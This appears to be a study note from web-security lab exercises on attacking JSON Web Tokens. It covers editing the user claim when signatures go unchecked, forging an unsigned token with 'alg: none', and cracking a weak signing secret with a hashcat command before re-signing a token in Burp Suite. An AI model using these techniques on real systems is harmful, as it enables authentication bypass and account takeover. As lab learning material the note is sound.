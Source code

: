 ```yaml
---
title: JWT attacks
description: Poor implementation of JWT can be used to bypass authentication and access control
---
```

## JWT Format
- **header**: metadata about the token
- **payload**: claim about the data or user
- **signature**:  header and payload are encoded, then signed with a secret key to prevent tampering.
## Exploit
### Signature not verified
Make changes to the payload, like changing to a different user. 
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "wiener"  
}
```
Change user:
```http
{  
    "iss": "portswigger",  
    "exp": 1747553975,  
    "sub": "carlos"  
}
```
### Unsigned JWT
Server can be setup incorrectly and it can accepts unsigned JWTs.
Use burpsuite **JSON Web Token** extensions to remove the signature. 

It removes the signature. The header now looks like this:
```http
{  
    "typ": "JWT",  
    "alg": "none"  
}
```

JWT with no signature:
```http
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDQ3MCwic3ViIjoid2llbmVyIn0.
```
### Weak signing key
Use **hashcat** to try to brute-force the secret key.
```bash
hashcat -a 0 -m 16500 eyJraWQiOiI0ODY2MTZhOC1lM2I0LTQzZWItODQ3Mi04NTc1OTgzNWJhNTkiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzU1NDc1NSwic3ViIjoid2llbmVyIn0._75lGMCWEJRNqs-mH0KCZ4IDodeS3IEQFPhUZOGKDNk rockyou.txt
```

Create a new signing key with the cracked secret key.
1. Burp Suite > JWT Editor > New Symmetric Key
2. Specify secret > Generate
3. Go to JSON Web token, change the payload and sign with new key.